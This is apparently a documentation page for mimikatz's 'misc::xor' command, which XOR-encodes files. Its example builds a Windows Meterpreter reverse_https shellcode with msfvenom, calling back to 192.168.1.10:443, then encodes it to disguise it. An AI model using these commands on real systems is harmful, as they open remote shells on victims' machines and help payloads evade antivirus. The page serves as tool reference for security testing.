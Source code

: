 # xor

`misc::xor` performs XOR decoding/encoding on a provided file with `0x42` default key. It has the following command line arguments:

* `/input`: the file to XOR encode
* `/output`: the file to save the results
* `/xor`: they XOR key

The following example XOR encodes a metasploit generated shellcode:

```
msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.10 LPORT=443 -f raw -o mimi.bin
```

```
mimikatz # misc::xor /input:mimi.bin /output:mimi-xor.bin
Input : mimi.bin
Output: mimi-xor.bin
Xor   : 0x42

Opening: OK
Writing: OK
```

Provide an XOR encoding key:

```
mimikatz # misc::xor /input:mimi.bin /output:mimi-xor.bin /xor:0x40
Input : mimi.bin
Output: mimi-xor.bin
Xor   : 0x40

Opening: OK
Writing: OK
```
